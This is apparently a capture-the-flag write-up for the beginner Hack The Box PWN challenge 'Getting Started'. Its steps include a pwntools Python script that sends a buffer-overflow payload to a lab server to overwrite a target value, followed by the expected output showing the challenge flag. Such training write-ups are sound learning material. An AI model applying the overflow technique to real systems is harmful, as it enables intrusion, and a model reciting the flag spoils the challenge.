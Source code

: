 # Challenge: Getting Started (PWN)

## Challenge Overview

**Name:** Getting Started
**Category:** PWN
**Difficulty:** Very Easy

### Description:

Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

---

# Challenge Progress: Getting Started (PWN)

## Exploit Steps

### Step 1: Install pwntools
Install `pwntools` on your WSL environment:
```bash
pip3 install pwntools
```

### Step 2: Create Exploit Script
Create a Python script named `wrapper.py` and paste the following code:
```python
#!/usr/bin/python3.8

from pwn import *
from time import sleep

IP = '94.237.56.47'
PORT = 58911

r = remote(IP, PORT)

payload  = b'A' * 32           # Fill buffer
payload += b'B' * 8            # Overwrite alignment dummy value
payload += p64(0x0badf00d)     # Overwrite the target value (≠ 0xdeadbeef)

r.sendline(payload)
sleep(1)
response = r.recvall()

if b'HTB' in response:
    success(f'Flag --> {response.strip().decode()}')
else:
    print("Flag not found.")
```

### Step 3: Run the Exploit
Execute the exploit with:
```bash
python3 wrapper.py
```

### Expected Output
If successful, the script will display the flag:
```
[+] Opening connection to 94.237.56.47 on port 58911: Done
[+] Flag --> HTB{b0f_tut0r14l5_4r3_g00d}
```

May god with us~
